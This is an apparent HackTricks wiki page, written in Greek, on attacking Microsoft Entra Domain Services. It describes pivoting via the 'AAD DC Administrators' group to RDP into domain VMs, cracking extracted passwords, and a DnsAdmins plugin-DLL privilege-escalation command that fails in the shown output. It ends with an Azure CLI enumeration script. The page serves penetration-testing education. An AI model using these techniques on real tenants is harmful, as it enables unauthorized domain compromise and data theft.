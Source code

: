 # Az - Microsoft Entra Domain Services

{{#include ../../../banners/hacktricks-training.md}}

## Υπηρεσίες Τομέα

Η Microsoft Entra Domain Services επιτρέπει την ανάπτυξη ενός Active Directory στο Azure χωρίς να χρειάζεται να διαχειρίζεστε Domain Controllers (στην πραγματικότητα δεν έχετε καν πρόσβαση σε αυτούς).

Ο κύριος στόχος της είναι να σας επιτρέψει να εκτελείτε παλιές εφαρμογές στο cloud που δεν μπορούν να χρησιμοποιήσουν σύγχρονες μεθόδους αυθεντικοποίησης, ή όπου δεν θέλετε οι αναζητήσεις καταλόγου να επιστρέφουν πάντα σε ένα τοπικό περιβάλλον AD DS.

Σημειώστε ότι για να συγχρονίσετε τους χρήστες που δημιουργούνται στο Entra ID (και δεν συγχρονίζονται από άλλους ενεργούς καταλόγους) στην υπηρεσία τομέα AD, πρέπει να **αλλάξετε τον κωδικό πρόσβασης του χρήστη** σε έναν νέο ώστε να μπορεί να συγχρονιστεί με το νέο AD. Στην πραγματικότητα, ο χρήστης δεν συγχρονίζεται από το Microsoft Entra ID στις Υπηρεσίες Τομέα μέχρι να αλλάξει ο κωδικός πρόσβασης.

> [!WARNING]
> Ακόμα και αν δημιουργείτε ένα νέο τομέα Active Directory, δεν θα μπορείτε να το διαχειριστείτε πλήρως (εκτός αν εκμεταλλευτείτε κάποιες κακοδιαρθρώσεις), που σημαίνει ότι από προεπιλογή, για παράδειγμα, δεν μπορείτε να δημιουργήσετε χρήστες απευθείας στο AD. Τους δημιουργείτε με **τον συγχρονισμό χρηστών από το Entra ID.** Μπορείτε να υποδείξετε να συγχρονίσετε όλους τους χρήστες (ακόμα και αυτούς που συγχρονίζονται από άλλους τοπικούς AD), μόνο τους χρήστες cloud (χρήστες που δημιουργούνται στο Entra ID), ή ακόμα και **να τους φιλτράρετε περισσότερο**.

> [!NOTE]
> Γενικά, λόγω της έλλειψης ευελιξίας στη διαμόρφωση του νέου τομέα και του γεγονότος ότι οι AD είναι συνήθως ήδη τοπικοί, αυτή δεν είναι η κύρια ενσωμάτωση μεταξύ του Entra ID και του AD, αλλά είναι ακόμα ενδιαφέρον να γνωρίζετε πώς να το παραβιάσετε.

### Pivoting

Τα μέλη της ομάδας **`AAD DC Administrators`** έχουν παραχωρηθεί τοπικά δικαιώματα διαχειριστή σε VMs που είναι συνδεδεμένα στον τομέα που διαχειρίζεται (αλλά όχι στους domain controllers) επειδή προστίθενται στην τοπική ομάδα διαχειριστών. Τα μέλη αυτής της ομάδας μπορούν επίσης να χρησιμοποιούν **Remote Desktop για να συνδεθούν απομακρυσμένα σε VMs που είναι συνδεδεμένα στον τομέα**, και είναι επίσης μέλη των ομάδων:

- **`Denied RODC Password Replication Group`**: Αυτή είναι μια ομάδα που καθορίζει χρήστες και ομάδες των οποίων οι κωδικοί πρόσβασης δεν μπορούν να αποθηκευτούν σε RODCs (Read-Only Domain Controllers).
- **`Group Policy Creators Owners`**: Αυτή η ομάδα επιτρέπει στα μέλη να δημιουργούν Ομάδες Πολιτικής στον τομέα. Ωστόσο, τα μέλη της δεν μπορούν να εφαρμόσουν πολιτικές ομάδας σε χρήστες ή ομάδες ή να επεξεργαστούν υπάρχουσες GPOs, οπότε δεν είναι τόσο ενδιαφέρον σε αυτό το περιβάλλον.
- **`DnsAdmins`**: Αυτή η ομάδα επιτρέπει τη διαχείριση των ρυθμίσεων DNS και έχει κακοποιηθεί στο παρελθόν για [να κλιμακώσει προνόμια και να παραβιάσει τον τομέα](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html?highlight=dnsadmin#dnsadmins), ωστόσο μετά τη δοκιμή της επίθεσης σε αυτό το περιβάλλον διαπιστώθηκε ότι η ευπάθεια έχει διορθωθεί:
```text
dnscmd TDW52Y80ZE26M1K.azure.training.hacktricks.xyz /config /serverlevelplugindll \\10.1.0.6\c$\Windows\Temp\adduser.dll

DNS Server failed to reset registry property.
Status = 5 (0x00000005)
Command failed:  ERROR_ACCESS_DENIED     5    0x5
```
Σημειώστε ότι για να παραχωρηθούν αυτές οι άδειες, μέσα στο AD η ομάδα **`AAD DC Administrators`** γίνεται μέλος των προηγούμενων ομάδων, και επίσης η GPO **`AADDC Computers GPO`** προσθέτει ως Τοπικούς Διαχειριστές όλα τα μέλη της ομάδας τομέα **`AAD DC Administrators`**.

Η μετάβαση από το Entra ID σε ένα AD που δημιουργήθηκε με τις Υπηρεσίες Τομέα είναι απλή, απλώς προσθέστε έναν χρήστη στην ομάδα **`AAD DC Administrators`**, αποκτήστε πρόσβαση μέσω RDP σε οποιοδήποτε/όλες τις μηχανές στον τομέα και θα μπορείτε να κλέψετε δεδομένα και επίσης **να συμβιβάσετε τον τομέα.**

Ωστόσο, η μετάβαση από τον τομέα στο Entra ID δεν είναι τόσο εύκολη καθώς τίποτα από τον τομέα δεν συγχρονίζεται στο Entra ID. Ωστόσο, πάντα ελέγξτε τα μεταδεδομένα για όλες τις VM που έχουν προστεθεί καθώς οι ανατεθειμένες διαχειριζόμενες ταυτότητές τους μπορεί να έχουν ενδιαφέρουσες άδειες. Επίσης, **εξαγάγετε όλους τους κωδικούς πρόσβασης των χρηστών από τον τομέα** και προσπαθήστε να τους σπάσετε για να συνδεθείτε στο Entra ID / Azure.

> [!NOTE]
> Σημειώστε ότι στο παρελθόν έχουν βρεθεί άλλες ευπάθειες σε αυτό το διαχειριζόμενο AD που επέτρεπαν την παραβίαση των DCs, [όπως αυτή](https://www.secureworks.com/research/azure-active-directory-domain-services-escalation-of-privilege?utm_source=chatgpt.com). Ένας επιτιθέμενος που παραβιάζει το DC θα μπορούσε πολύ εύκολα να διατηρήσει την επιμονή χωρίς οι διαχειριστές του Azure να το παρατηρήσουν ή ακόμη και να είναι σε θέση να το αφαιρέσουν.

### Αριθμητική
```bash
# Get configured domain services domains (you can add more subs to check in more subscriptions)
az rest --method post \
--url "https://management.azure.com/providers/Microsoft.ResourceGraph/resources?api-version=2021-03-01" \
--body '{
"subscriptions": [
"0ce1297c-9153-425d-3229-f51093614377"
],
"query": "resources | where type == \"microsoft.aad/domainservices\"",
"options": {
"$top": 16,
"$skip": 0,
"$skipToken": ""
}
}'

# Get domain configuration
az rest --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/<domain-name>?api-version=2022-12-01&healthdata=true"
## e.g.
az rest --url "https://management.azure.com/subscriptions/0ce1297c-9153-425d-3229-f51093614377/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/azure.training.hacktricks.xyz?api-version=2022-12-01&healthdata=true"

# Based on the VNet assigned to the domain services, you can enumerate the VMs in the domain

subscription_id="0ce1297c-9153-425d-3229-f51093614377"
vnet_name="aadds-vnet"

# Retrieve all VMs in the subscription
vm_list=$(az vm list --subscription "$subscription_id" --query "[].{Name:name, ResourceGroup:resourceGroup}" --output tsv)

# Iterate through each VM to check their VNet connection
echo "VMs connected to VNet '$vnet_name':"
while IFS=$'\t' read -r vm_name resource_group; do
nic_ids=$(az vm show --subscription "$subscription_id" --name "$vm_name" --resource-group "$resource_group" --query "networkProfile.networkInterfaces[].id" --output tsv)

for nic_id in $nic_ids; do
subnet_id=$(az network nic show --ids "$nic_id" --query "ipConfigurations[0].subnet.id" --output tsv)

if [[ $subnet_id == *"virtualNetworks/$vnet_name"* ]]; then
echo "VM Name: $vm_name, Resource Group: $resource_group"
fi
done
done <<< "$vm_list"
```
{{#include ../../../banners/hacktricks-training.md}}
